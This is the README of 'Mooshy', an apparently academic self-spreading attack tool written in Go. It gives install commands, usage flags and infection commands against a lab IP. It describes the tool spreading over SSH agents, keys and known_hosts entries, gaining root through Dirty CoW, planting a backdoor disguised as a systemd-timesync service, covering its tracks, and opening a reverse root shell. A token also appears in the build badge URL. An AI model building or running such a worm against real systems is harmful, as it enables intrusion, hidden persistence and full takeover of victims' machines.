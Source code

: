 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX.png)](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

## Usage:
```sh
    $ ./bin/mooshy -help                                                       
    Usage of ./bin/mooshy:
      -addr string
        	The lucky guy
      -moosh string
        	Path to moosh (default "./bin/moosh")
      -ssh
        	Use SSH for the infection
      -sshAgent string
        	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
      -sshKey string
        	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
      -sshKnown string
        	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
      -sshUser string
        	Username to connect as(e.g. for SSH) (default "averagejoe")
      -useSSHAgent
        	Whether or not use SSH agent
      -useSSHKey
        	Whether or not use (passwordless) SSH private key
      -useSSHKnown
        	Whether or not to try to infect all hosts in SSH known_hosts file
```

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   ./bin/mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   ./bin/mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Buffer overflow of a HHTPD server:
        - Connects to the `addr`.
        - Opens reverse shell on the victim machine.
        - Downloads `moosh` binary from somewhere??
        - TODO.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system
    - Creates,enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

## Execution mode
```sh
   ./bin/mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the infected victim and returns a reverse `root` shell.

# Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))
